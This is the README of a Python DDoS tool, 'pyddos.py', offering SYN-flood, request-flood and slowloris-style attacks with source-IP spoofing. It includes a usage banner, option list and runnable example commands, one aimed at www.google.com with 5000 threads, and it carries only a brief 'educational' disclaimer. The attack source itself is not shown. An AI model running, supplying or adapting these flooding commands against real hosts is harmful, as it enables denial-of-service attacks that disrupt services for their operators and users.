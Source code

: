 # pyddos.py

* This is my new update 
* This script have 3 type of ddos attacks : SYNFLOOD | REQUEST | Pyslow
* Script has pyslow attack type which is similar to slowloris attack

# Note
* I wrote this script for educational not for destructive purposes and illegal actions, so I won't be responsible for that  


# Requires module
* termcolor
* colorama



# Usage
       
      _ \        __ \  __ \               ___|           _)       |   
     |   | |   | |   | |   |  _ \   __| \___ \   __|  __| | __ \  __|  
     ___/  |   | |   | |   | (   |\__ \       | (    |    | |   | |   
    _|    \__, |____/ ____/ \___/ ____/ _____/ \___|_|   _| .__/ \__|  
           ____/                                            _|         
                                                               
        DDos python script | Script used for testing ddos | Ddos attack     
         Author: ___T7hM1___                                                
         Github: http://github.com/t7hm1/pyddos                             
        Version:2.0 

    usage: python3 pyddos.py -t [target] -p [port] -t [number threads]

    optional arguments:
    -h, --help       show this help message and exit
    -v, --version    show program's version number and exit

    options:

    -d <ip|domain>   Specify your target such an ip or domain name
    -t <float>       Set timeout for socket
    -T <int>         Set threads number for connection (default = 1000)
    -p <int>         Specify port target (default = 80) |Only required with pyslow attack|
    -s <int>         Set sleep time for reconnection
    -i <ip address>  Specify spoofed ip unless use fake ip
    -Request         Enable request target
    -Synflood        Enable synflood attack
    -Pyslow          Enable pyslow attack
    --fakeip         Option to create fake ip if not specify spoofed ip

    Example:
        python3 pyddos.py -d www.example.com -p 80 -T 2000 -Pyslow
        python3 pyddos.py -d www.domain.com -s 100 -Request
        python3 pyddos.py -d www.google.com -Synflood -T 5000 -t 10.0

